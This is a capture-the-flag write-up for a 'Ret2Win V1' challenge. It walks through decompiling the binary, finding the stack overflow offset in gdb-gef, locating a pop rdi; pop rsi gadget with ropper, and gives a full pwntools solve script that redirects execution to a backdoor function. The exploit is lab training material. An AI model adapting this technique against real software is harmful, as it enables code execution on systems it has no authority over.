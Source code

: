 Ret2Win V1
This is a buffer overflow to the win(backdoor) function with key ckecks
Decompiling the binary

The challenge() function
 
![image](https://github.com/user-attachments/assets/c5a2af60-c0c2-484e-bcd5-2b16776c0140)

The first part asks us a question “Would You like to give any feeback” and our input local_d goes through a string compare, which compares it to the string “yes”. We give “yes” as the first input and the the feedback() function is called.


feedback()
 
![image](https://github.com/user-attachments/assets/908a6014-f9ad-4428-8d5e-f07e94fd1251)


The feedback function ask for another input using the read function which accepts a total of 96 bytes
0x60 = 96. 
And the function we are trying to get into, the backdoor() function

backdoor()

 ![image](https://github.com/user-attachments/assets/57031cf2-fff6-43bb-8974-6d0ecddd8780)


From here on I just attempted to try a buffer overflow, first finding the offset to the $rsp register. 
I load binary up in gdb-gef, the generate an string length of 100 with “pattern create 100”. 
Next I use ran the program, and gave it the first input “yes”, then the second input will be the pattern of 100 strings create. Which then overflowed the buffer. 

 ![image](https://github.com/user-attachments/assets/379321c0-b674-4f1e-8c34-551bff0a98a5)


With this I was able to get the offset for the overflow.


I also noticed a function in the binary called helper() Which looked like this. 
 
![image](https://github.com/user-attachments/assets/c86427ff-6529-41a9-a641-4b1c769226ca)

This will be helpful I crafting out solve script because, after overwriting the return address to the backdoor, the backdoor will also perform a check on two parameters, with values
```0xdead``` and ```0xbeef``` respectfully

Using ropper on the binary
```
ropper -f ret2win1 --search='pop rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: ret2win1
0x0000000000401358: pop rdi; pop rsi; ret; 
0x00000000004014e3: pop rdi; ret;
```

So we have to load the values ```0xdead``` and ```0xbeef``` into ```0x0000000000401358: pop rdi; pop rsi; ret;```


Have all that now we write our solve script. 
```
python
from pwn import *
# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg

continue
'''.format(**locals())

# Binary filename
exe = './ret2win1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

offset = 56
io.sendline('yes')
# pop_rdi = p64(0x4014e3)  # Address of 'pop rdi; ret'
# pop_rsi_r15 = p64(0x4014e1)  # Address of 'pop rsi; pop r15; ret'

pop_rdi_rsi = p64(0x401358)

param_1 = 0xdead # First parameter
param_2 = 0xbeef  # Second parameter

payload = flat({
    offset: [
        pop_rdi_rsi,  # Pop the next value to RDI
        param_1,  # Pop the next value to RSI (and junk into R15)
        param_2,
        p64(elf.sym['backdoor'])
    ]
})

io.sendline(payload)
io.interactive()
```
Running the script we got the flag

